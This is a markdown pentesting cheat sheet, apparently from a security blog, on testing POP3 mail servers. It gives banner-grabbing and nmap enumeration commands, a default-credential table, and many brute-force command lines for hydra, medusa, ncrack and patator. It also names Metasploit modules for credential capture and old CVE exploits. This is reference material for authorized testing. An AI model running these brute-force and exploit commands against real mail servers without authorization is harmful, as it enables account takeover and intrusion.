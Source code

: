 ```yaml
---
title: POP3 Pentesting Best Practices
categories: [pentesting protocols,pop3]
tags: [pentesting,pop3,best practicies]
comments: true
---
```


# POP3

<aside>
💡 POP3 usually uses ports 110, 995

</aside>

# What is POP3?

POP3 stands for Post Office Protocol. As the name suggests, it allows you to use your email inbox like a post office – emails are downloaded onto your computer and removed from the mail server.

When accessing your emails using the POP3 protocol, a copy of the emails is created and stored locally on your computer. The originals are usually, but not always, removed from the mail server. In other words, emails are tied to the specific device. Once the email is downloaded onto one device (and removed from the mail server), it cannot be accessed by another email client or device.

Default ports: 110, 995(ssl)1

```bash
PORT     STATE SERVICE               VERSION
110/tcp  open  pop3                  Zimbra Collabration Suite pop3d
```

# POP3 Pentesting

<aside>
<img src="https://www.shodan.io/static/img/favicon.png" alt="https://www.shodan.io/static/img/favicon.png" width="20px" /> Shodan search query: <br>
<p>&#9634; port:110, 995 </p>

</aside>


## Enumeration

## Banner Grabbing

```bash
telnet TargetIP TargetPort
nc -nv TargetIP TargetPort
Nmap: banner
MSF: auxiliary/scanner/pop3/pop3_version
openssl s_client -connect <IP>:995 -crlf -quiet
Nmap: pop3-ntlm-info
```

![Untitled](/assets/img/pitcures/pop3/pop3.png)

## Capabilities

```bash
#All are default scripts
nmap --script "pop3-capabilities or pop3-ntlm-info" -sV -port 110 192.168.x.x
# Retrieve POP3 server capabilities (CAPA, TOP, USER, SASL, RESP-CODES, LOGIN-DELAY, PIPELINING, EXPIRE, UIDL, IMPLEMENTATION)  
nmap -v -sV --version-intensity=5 --script pop3-capabilities -p T:110 192.168.x.x
```

![Untitled](/assets/img/pitcures/pop3/pop31.png)

![Untitled](/assets/img/pitcures/pop3/pop32.png)

The `pop3-ntlm-info` plugin will return some "**sensitive**" data (Windows versions).

## POP3 Commands

```bash
POP commands:
  USER uid           Log in as "uid"
  PASS password      Substitue "password" for your actual password
  STAT               List number of messages, total mailbox size
  LIST               List messages and sizes
  RETR n             Show message n
  DELE n             Mark message n for deletion
  RSET               Undo any changes
  QUIT               Logout (expunges messages if no RSET)
  TOP msg n          Show first n lines of message number msg
  CAPA               Get capabilities
```

## Capturing POP3 Packages

```bash
MSF: auxiliary/server/capture/pop3
```

## POP3 Credentials

## Authentication Checking (classical credentials)

| USER | PASS |
| --- | --- |
| admin | admin |
| root | root |
| root | toor |

## Brute Forcing

```bash
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V
hydra -t 2 -L users.list -P passwords.list -M TargetIP.list -s TargetPort pop3
# Try to bruteforce POP3 accounts
Nmap: pop3-brute –script-args userdb=users.list,passdb=passwords.list
nmap --script pop3-brute --script-args pop3loginmethod=SASL-LOGIN -p T:110 IP
nmap --script pop3-brute --script-args pop3loginmethod=SASL-CRAM-MD5 -p T:110 IP
nmap --script pop3-brute --script-args pop3loginmethod=APOP -p T:110 IP
MSF: auxiliary/scanner/pop3/pop3_login
medusa -t 2 -T 2 -U users.list -P passwords.list -H TargetIP.list -n TargetPort -M pop3
ncrack -g CL=2 -U users.list -P passwords.list -iL TargetIP.list -p pop3:TargetPort -oA output
patator pop3_login host=TargetIP user=FILE1 password=FILE0 0=users.list 1=passwords.list -x ignore:fgrep=’incorrect password or account name’
```

# POP3 Vulnerabilities

```bash
#Seattle Lab Mail 5.5 [CVE-2003-0264]
MSF: exploit/windows/pop3/seattlelab_pass
Exploit-DB: 638.py, 643.c, 646.c
#Cyrus – Gentoo 2006.0 Linux 2.6 [CVE-2006-2502]
MSF: exploit/linux/pop3/cyrus_pop3d_popsubfolders
```